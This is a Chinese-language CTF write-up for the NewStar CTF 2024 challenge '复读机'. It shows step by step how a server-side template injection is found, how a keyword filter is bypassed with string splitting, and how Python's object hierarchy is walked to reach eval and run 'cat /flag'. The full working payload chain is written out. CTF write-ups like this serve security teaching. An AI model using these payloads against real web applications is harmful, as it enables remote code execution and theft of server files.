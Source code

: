 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 复读机

可以看到，输入什么就输出什么

输入 `{{ '{'+'{ 7*7 }'+'}' }}` 的时候，输出的结果是 49，说明存在 SSTI 注入

输入 `{{ '{'+'{ [].__class__}'+'}' }}`，发现 bot 显示不喜欢上课,说明 `class` 被过滤了，可以使用简单的拼接绕过

```python
{{[]['__cl'+'ass__']}}
```

得到 `list` 类

![简单的 SSTI](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取 `object` 类

```python
{{()['__cl'+'ass__']['__base__']}}
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()}}
```

![获取 object 类](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类，这里选用 `os._wrap_close`

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]}}
```

![获取 os._wrap_close](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到 `eval` 方法，命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![命令执行](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
